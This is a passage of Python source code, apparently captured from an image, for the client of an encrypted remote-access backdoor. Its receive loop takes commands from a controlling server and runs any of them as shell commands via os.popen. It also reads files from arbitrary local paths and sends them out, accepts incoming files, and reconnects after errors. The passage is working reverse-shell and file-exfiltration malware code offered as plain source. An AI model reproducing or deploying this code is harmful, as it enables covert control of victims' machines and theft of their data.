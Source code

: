 ```
    with open(filename, "wb") as f:
        while total_bytes < filesize:
            bytes_read = client2.recv(BUFFER_SIZE)
            if not bytes_read:
                break
            decr_file = dec_file_mes(bytes_read, k)
            f.write(decr_file)
            total_bytes += len(decr_file)
    
    client2.close()

def receive(client, k):
    while True:
        try:
            # Receive encrypted message
            message = client.recv(BUFFER_SIZE)
            msg = dec_mes(message, k).decode()
            
            # Handle file transfer command
            if msg.startswith("FILE"):
                # Create a thread to handle file transfer
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()
                
                # Send acknowledgement
                okenc = enc_mes("OK", k)
                client.send(okenc)
                continue
            
            # Handle upload file command
            elif msg.startswith("UPLOAD"):
                path_to_file = msg.split(SEPARATOR)[1]
                
                # Read file and get size
                with open(path_to_file, "rb") as f:
                    bytes_read = f.read()
                
                # Send file size info
                filesize = len(bytes_read)
                bytes_enc = enc_mes(f"{path_to_file}{SEPARATOR}{filesize}", k)
                client.send(bytes_enc)
                
                # Wait for acknowledgement
                vsb = client.recv(BUFFER_SIZE)
                
                # Send encrypted file
                enc_answer = enc_mes(bytes_read, k)
                client.sendall(enc_answer)
                continue
            
            # Execute command and return result
            else:
                answer = os.popen(msg).read()
                enc_answer = enc_mes(answer, k)
                client.send(enc_answer)
        
        except Exception:
            # Handle connection errors
            client.close()
            
            # Reconnect
            time.sleep(3)
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
